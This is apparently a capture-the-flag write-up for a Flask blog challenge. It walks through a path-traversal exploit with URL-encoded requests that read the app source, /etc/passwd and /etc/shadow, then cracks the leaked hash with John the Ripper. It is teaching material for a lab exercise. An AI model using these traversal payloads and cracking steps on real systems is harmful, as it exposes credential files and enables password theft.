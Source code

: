 # Skyblog

**Web, 250 points**

> I have an awesome idea ! Yes i do !
> I am launching a new blog platform.
> It is going to be the new Skyblog, better and more profitable than Medium.
> I'm going to be rich !
>
> You can preview the beta over there : http://challenges.urlab.be:16904
>
> *Note: this is a web challenge. You should be able to load a website in a normal browser. If it's not the case, please warn us. (The challenge is unstable due to networking problems)*
>
> **WARNING: do NOT use automated tools like wapiti or nikto**


![screenshot](./screenshot.png)

## Solution

You have a website of a blog. When you click on a blog post, you get an url like this : `http://challenges.urlab.be:16904/post/1%20-%20Hello%20World.md`. You have to try some local file injection by manipulation the url.

A first try could be to try `http://challenges.urlab.be:16904/post/../../../../etc/passwd`. But you have the problem that your browser simplifies the url to `http://challenges.urlab.be:16904/../../../etc/passwd`. You have to urlencode every `/` to `%2F`.

## Optionnal (goto "users passwords")
After some research you try some common file names and find `/post/..%2F/main.py`
You find the source code of the application :

    from flask import Flask
    from flask import render_template
    import glob
    import os
    import markdown

    app = Flask(__name__)

    #### The flag is not here. My guess is that you are looking for a user password :)


    @app.route(&#34;/&#34;)
    def hello():
        posts = [os.path.splitext(os.path.basename((x)))[0] for x in glob.glob(&#34;posts/*.md&#34;)]
        return render_template(&#39;hello.html&#39;, posts=posts)


    @app.route(&#34;/post/&lt;path:title&gt;&#34;)
    def view_post(title):
        with open(os.path.join(&#34;./posts&#34;, title)) as fd:
            raw = fd.read()
            html = markdown.markdown(raw)
            return render_template(&#39;post.html&#39;, post=html, title=title, raw=raw)

    if __name__ == &#34;__main__&#34;:
        app.run(debug=False, host=&#34;0.0.0.0&#34;)

So yes, definitely it's a local file inclusion but the flag is not here :/

## Users passwords

You are looking for a flag/password. You try to get access to the file system root then `/etc/password`.
We can try `http://challenges.urlab.be:16904/post/..%2Fetc%2Fpasswd` but it does not work.

Let's try one directory higher : `http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fpasswd`.
It works but does not give any password.

We then try http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fshadow`. The website gives us :

    root:*:17185:0:99999:7:::
    daemon:*:17185:0:99999:7:::
    bin:*:17185:0:99999:7:::
    sys:*:17185:0:99999:7:::
    sync:*:17185:0:99999:7:::
    games:*:17185:0:99999:7:::
    man:*:17185:0:99999:7:::
    lp:*:17185:0:99999:7:::
    mail:*:17185:0:99999:7:::
    news:*:17185:0:99999:7:::
    uucp:*:17185:0:99999:7:::
    proxy:*:17185:0:99999:7:::
    www-data:*:17185:0:99999:7:::
    backup:*:17185:0:99999:7:::
    list:*:17185:0:99999:7:::
    irc:*:17185:0:99999:7:::
    gnats:*:17185:0:99999:7:::
    nobody:*:17185:0:99999:7:::
    systemd-timesync:*:17185:0:99999:7:::
    systemd-network:*:17185:0:99999:7:::
    systemd-resolve:*:17185:0:99999:7:::
    systemd-bus-proxy:*:17185:0:99999:7:::
    _apt:*:17185:0:99999:7:::
    flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::

The `flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::` looks like the flag !

## Password cracking

But no, it's not the flag ^^

You still have to crack the password hash.
You then crack it with John the ripper and the dictionary we provided.

    john a-file-with-the-hash.txt --wordlist=Project/ctf-challenges/dict.txt
    john a-file-with-the-hash.txt --show

After a few minutes you get back the flag : `pelandosi`
